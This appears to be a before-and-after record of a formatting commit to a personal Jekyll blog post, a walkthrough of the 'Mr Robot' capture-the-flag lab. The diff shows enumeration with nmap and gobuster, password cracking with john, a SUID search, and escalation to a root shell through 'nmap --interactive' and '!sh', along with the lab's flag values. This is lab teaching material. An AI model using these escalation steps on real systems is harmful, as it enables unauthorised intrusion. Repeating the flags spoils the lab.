

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2021-04-09-Mr-robots.md, in a window 1280 px wide and 900 px high, scrolled down 4004 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2021-04-09-Mr-robots.md

````diff
--- a/_posts/2021-04-09-Mr-robots.md
+++ b/_posts/2021-04-09-Mr-robots.md
@@ -18,7 +18,7 @@ nmap -sC -sV ip -T5
 
 gobuster dir -u ip -w /usr/share/wordlists/dirb/common.txt
 
-10.10.61.197/key-1-of-3.txt [ 073403c8a58a1f80d943455fb30724b9 ]
+10.10.61.197/key-1-of-3.txt ```[ 073403c8a58a1f80d943455fb30724b9 ]```
 
 wc -l fsocity.dic
 
@@ -170,12 +170,12 @@ john hash.txt --wordlist=~/Downloads/fsocity.dic --format=RAW-MD5
 
 su robot
 
-password : abcdefghijklmnopqrstuvwxyz
+password : ```abcdefghijklmnopqrstuvwxyz```
 
-cat ~/key-2-of-3.txt [ 822c73956184f694993bede3eb39f959 ]
+cat ~/key-2-of-3.txt ```[ 822c73956184f694993bede3eb39f959 ]```
 
 ```find / -perm /4000 -print 2>/dev/null```
 
 nmap --interactive
 
-ketik command !sh
+use command ```!sh```
````
Also changed, not shown: other parts of _posts/2021-04-09-Mr-robots.md (+1 -1 lines).
